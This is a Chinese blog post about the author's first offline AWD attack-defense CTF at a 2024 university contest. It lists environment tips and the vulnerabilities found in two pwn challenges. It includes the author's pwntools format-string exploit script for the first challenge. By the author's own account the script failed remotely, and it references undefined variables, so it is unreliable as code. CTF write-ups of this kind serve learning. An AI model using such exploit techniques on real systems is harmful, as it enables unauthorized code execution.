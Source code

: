 ```yaml
---
title: 磐石行动高校赛2024 - AWD
date: 2024/7/25 16:39:00
updated: 2024/7/25 16:39:00
tags:
    - awd
thumbnail: /images/shanghai2024awd.jpg
excerpt: 首次线下参赛未获分数但获得保底三等奖，揭示了靶机漏洞及利用技巧。
---
```


第一次线下参加awd比赛，手忙脚乱的，一分也没拿，最后吃了保底三等奖:(

{% notel green fa-circle-info 网上不会说的背景信息 %}
1. 靶机分为4台，分别有4个服务，2web，2pwn，有独立ip
2. 不给密码给私钥，需要通过私钥连靶机，由于ssh对安全要求高，需要将密钥权限设为 **0400**
3. 给的靶机内核极老，是3.10还是3.15
4. 系统里没有挂载procfs，所以ps是看不了的
5. patch脚本要熟练，对手不会时间给你看题，特别是web
{% endnotel %}

## 第一题

找到2个洞：`scanf`溢出写和`snprintf`格式化字符串漏洞

![scanf](/assets/shanghai2024/0pwn1.png)
![snprintf](/assets/shanghai2024/0pwn2.png)

{% folding cyan::个人的失败脚本 %}
本地打通了，结果远程打不通

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './0pwn'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('10.103.5.4', 8888)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'$', b'Init')
    sh.sendlineafter(b'Size', str(0x40).encode())
    for i in range(0x40):
        sh.sendlineafter(b'char', b'|')
        sh.sendlineafter(b'weight', b'1')

    def fmt_attack(fmt:bytes):
        sh.sendlineafter(b'$', b'Encode')
        sh.sendlineafter(b'length', str(0xa0).encode())
        sh.sendlineafter(b'Input', '|'.join(fmt).encode())

    fmt_attack(f'%{0x50 + 5}$p' + '0'*0x30)

    fmt_attack(f'%{1}$p')
    sh.recvuntil(b'characters:\n')
    dest = int(sh.recvline(), 16) & 0xffffffffff00
    info(hex(dest))

    fmt_attack(f'%{0x5d + 5}$hhn')
    fmt_attack(f'%{0xc0}c%{dest_arg}$hhn')
    fmt_attack(f'%c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x52}c%{dest_arg}$hhn')
    fmt_attack(f'%2c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x40}c%{dest_arg}$hn')
    fmt_attack(f'%4c%{0x5d + 5}$hhn')
    fmt_attack(f'%{dest_arg}$hn')
    fmt_attack(f'%{(dest - stack) // 8 + 0x57}$s')

    sh.interactive()
```
{% endfolding %}

## 第二题

也找到2个洞：`add`没有`\0`截断导致的地址泄露和`change`中的堆块越界写

![add](/assets/shanghai2024/1pwn1.png)
![change](/assets/shanghai2024/1pwn2.png)


